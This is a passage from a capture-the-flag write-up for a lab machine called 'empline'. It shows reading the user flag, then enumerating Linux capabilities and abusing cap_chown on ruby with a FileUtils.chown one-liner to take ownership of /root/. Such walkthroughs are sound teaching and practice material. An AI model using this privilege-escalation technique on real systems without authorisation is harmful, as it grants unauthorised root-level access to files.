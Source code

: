 Now we can go ahead and read the user flag in `george`'s home directory:

~~~
george@empline:~$ ls -la
total 20
drwxrwx--- 4 george george 4096 Feb 26 14:47 .
drwxr-xr-x 4 root   root   4096 Jul 20  2021 ..
drwx------ 2 george george 4096 Feb 26 14:47 .cache
drwx------ 3 george george 4096 Feb 26 14:47 .gnupg
-rw-r--r-- 1 root   root     33 Jul 20  2021 user.txt
george@empline:~$ cat user.txt 
91cb89c[REDACTED]b099078e
~~~

User flag: `91cb89c[REDACTED]b099078e`

## privilege escalation

Now it's time to escalate to root. The first thing I checked was the sudo permissions and we have none:

~~~
george@empline:~$ sudo -l
[sudo] password for george: 
Sorry, user george may not run sudo on empline.
~~~

After some enumeration, I found a useful capability for `ruby`:

~~~
george@empline:~$ getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/local/bin/ruby = cap_chown+ep
~~~

As you can see, `cap_chown` is set for `ruby`, which can be used to make arbitrary changes to file UIDs and GIDs. In simple words, we can run `chown` command which is used to change files ownerships and groups.

After a little bit of research, I found this [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities) blog, which had a command for `ruby` that used this capability to change the ownership and group of a directory or a file:

~~~
ruby -e 'require "fileutils"; FileUtils.chown(<USER ID>, <GROUP ID> , "<PATH>")'
~~~

### Just reading the root flag

Now we have two ways. First one is to change the ownership of the `/root/` directory and read the root flag. We just need the user id of `george` that we can get by running `id` and by running the following command, we can change the ownership:

~~~
george@empline:~$ id
uid=1002(george) gid=1002(george) groups=1002(george)
george@empline:~$ ruby -e 'require "fileutils"; FileUtils.chown(1002, 1002 , "/root/")'
~~~

